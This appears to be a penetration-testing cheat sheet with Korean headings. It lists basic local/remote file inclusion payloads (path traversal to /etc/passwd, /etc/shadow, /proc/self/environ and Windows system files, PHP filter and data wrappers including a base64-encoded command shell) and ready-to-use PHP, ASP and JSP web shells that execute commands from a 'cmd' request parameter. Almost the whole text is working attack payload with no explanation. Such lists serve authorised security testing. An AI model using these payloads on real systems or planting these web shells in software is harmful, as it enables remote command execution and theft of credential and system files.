 ### 📁 LFI/RFI 기본 테스트

```bash
# Linux LFI
../../../etc/passwd
../../../etc/shadow
../../../etc/hosts
../../../proc/version
../../../proc/self/environ
../../../var/log/apache2/access.log

# Windows LFI
../../../windows/system32/drivers/etc/hosts
../../../windows/win.ini
../../../windows/system.ini
../../../boot.ini
C:\windows\system32\drivers\etc\hosts
C:\windows\win.ini

# PHP Wrapper
php://filter/convert.base64-encode/resource=index.php
php://filter/read=string.rot13/resource=index.php
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```

### 📤 File Upload 기본 테스트

```bash
# PHP 웹쉘
<?php system($_GET["cmd"]); ?>
<?php echo shell_exec($_GET["cmd"]); ?>
<?php passthru($_GET["cmd"]); ?>
<?php exec($_GET["cmd"], $output); print_r($output); ?>

# ASP 웹쉘
<% eval request("cmd") %>
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
void Page_Load(object sender, EventArgs e){
    Process.Start("cmd.exe","/c " + Request.QueryString["cmd"]);
}
</script>

# JSP 웹쉘
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd != null) {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String line;
    while ((line = br.readLine()) != null) {
        out.println(line + "<br>");
    }
}
%>
```
